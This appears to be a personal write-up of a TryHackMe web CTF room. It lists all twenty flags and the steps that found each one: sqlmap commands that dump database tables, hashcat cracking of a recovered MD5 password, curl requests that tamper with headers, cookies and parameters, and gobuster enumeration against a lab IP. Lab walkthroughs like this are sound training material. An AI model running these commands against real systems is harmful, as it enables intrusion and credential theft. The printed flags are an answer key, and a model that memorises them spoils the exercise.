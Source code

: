 ```yaml
---
Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.
---
```


*Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise*

- Easter 1 *THM{4u70b07_r0ll_0u7}* (ip/robots.txt /decode from hex)
- Easter 2 *THM{f4ll3n_b453}* (decode from base 64 till get DesKel_secret_base then go to path)
- Easter 3 *THM{y0u_c4n'7_533_m3}* (gobuster found /login path/view source code)
- Easter 4 *THM{1nj3c7_l1k3_4_b055}* (first use burpsuite and save the POST request like request.txt or another then 
```
sqlmap -r request.txt --dbs --batch
```
 will give me the name of 4 dbs available which one of these is THM_f0und_m3
 [sqlmap](https://resources.infosecinstitute.com/topic/important-sqlmap-commands/)

> Now let’s dump the tables

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 --tables
```

> found two tables nothing_inside and user

> Let’s see the structure of the nothing_inside table


```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside --columns
```

> found Easter_4 Only 1 field, let’s dump the table:

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
```

> [23:14:25] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b0
[23:17:42] [ERROR] invalid character detected. retrying..
[23:17:42] [WARNING] increasing time delay to 3 seconds
55}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[23:18:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.122.55'                                                        
[*] ending @ 23:18:23 /2022-08-12/

- Easter 5 *THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} *

> Still using the same SQL injection as for easter 4, let’s dump the user table

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T user --columns
```

> found password and username

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
```

```md5
hash-identifier 05f3672ba34409136aa71b8d00070d1b
```
##### hashcat (or john)

```save hash
nano hashctf2
```
```
hashcat -m 0 hashctf2 /usr/share/wordlists/rockyou.txt
```
`05f3672ba34409136aa71b8d00070d1b:cutie`
> then login to http://IP/login with the credentials 

==Deskel:cutie==  give me 

- Easter 6 *THM{l37'5_p4r7y_h4rd}* (curl -s ip -D header.txt / then cat header.txt)
- Easter 7 *THM{w3lc0m3!_4nd_w3lc0m3}* (change cookie value to 1 in inspect mode then refresh page)
- Easter 8 *THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y} * (curl -s --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://IP/ | grep "Easter 8")
- Easter 9 *THM{60nn4_60_f457}* (curl -s http://IP/ready/) or using wget but will download it
- Easter 10 *THM{50rry_dud3} * (curl -s --referer "tryhackme.com" http://IP/free_sub/)
- Easter 11 *THM{366y_b4k3y}* ( curl -s -d "dinner=egg" -X POST http://IP/ | grep menu -B 1 )
- Easter 12 *THM{h1dd3n_j5_f1l3} * (curl -s http://IP/ | grep "\.js" ) then found jquery-9.1.2.js so (curl -s http://IP/jquery-9.1.2)  found a function - copy and go to [jscript](https://playcode.io/typescript/) 
> function ahem()
 {
    str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
    var hex  = str1.toString();
    var str = '';
    for (var n = 0; n < hex.length; n += 2) {
        str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
    }
    return str;
 }
document.write(ahem());  

==Easter 12 is THM{h1dd3n_j5_f1l3} ==
- Easter 13 *THM{1_c4n'7_b3l13v3_17}* (press the button)
- Easter 14 *THM{d1r3c7_3mb3d}*
 [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Render_Image('Raw'))
- Easter 15 *THM{ju57_4_64m3} * (#1st curl -d "answer=abcdefghijklmnopqrstuvwxyz" -X POST http://IP/game1/ give me another hash then / curl -d "answer=ABCDEFGHIJKLMNOPQRSTUVWXYZ" -X POST http://IP/game1/  the same hash and with the hints 
> hints: 51 89 77 93 126 14 93 10 
> We now have the numbers associated to each upper (99=A, 100=B, 101=C, … 141=Z) and lower (89=a, 90=b, …, 18=z) 

> decode : GameOver : enter like answ or curl -d "answer=GameOver" -X POST http://IP/game1/

- Easter 16 *THM{73mp3r_7h3_h7ml}* 
(curl -d "button1=button1&button2=button2&button3=button3" -X POST http://IP/game2/ )
`La vulnerabilidad de tipo Parameter Tampering consiste en la manipulación del valor de algún parámetro que se intercambia entre cliente y servidor`
- Easter 17 *THM{j5_j5_k3p_d3c0d3}*
> bin -> dec -> hex -> ascii
[rapidtables](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
==Easter 17: THM{j5_j5_k3p_d3c0d3}==
- Easter 18 *THM{70ny_r0ll_7h3_366}* (curl -s -H "egg: Yes" http://IP/ | grep -i "Easter 18")
>Request header. Format is egg:Yes
- Easter 19 *THM{700_5m4ll_3yy}* (gobuster/ small path /img)
- Easter 20 *THM{17_w45_m3_4ll_4l0n6} * (curl -s -d "username=DesKel&password=heIsDumb" -X POST http://IP/ | grep -A 1 "Easter 20") 
> You need to POST the data instead of GET. Burp suite or curl might help.

[[REmux The Tmux]]
